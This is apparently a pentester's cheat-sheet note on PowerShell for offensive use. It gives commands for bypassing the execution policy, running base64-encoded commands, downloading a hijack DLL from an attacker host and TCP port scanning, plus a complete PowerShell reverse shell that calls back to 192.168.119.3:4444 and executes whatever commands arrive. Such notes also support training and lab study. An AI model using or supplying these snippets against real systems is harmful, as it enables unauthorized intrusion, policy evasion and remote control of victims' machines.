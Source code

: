 **Tags:** #type/tech-specific 

---
**Tags:** #type/tool  #tactic/reconnaissance/active 
**Link:** 
**Purpose:** default shell on modern windows

---
# Info
Can directly execute encoded commands

# Usage
bypass execution policies
	`powershell.exe -nop -exec bypass`: run powershell with 
execute base64 encodede command: `powershell.exe -EncodedCommand <base64string>`
# Snippets
#### download file from attacker machine
`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`
#### perform tcp port scan
`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null`
#### test connection on one tcp port
`Test-NetConnection -Port 445 192.168.50.151`
#### print the current domain
`(Get-CimInstance Win32_ComputerSystem).Domain` or `$env:USERDOMAIN`
#### Simple Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```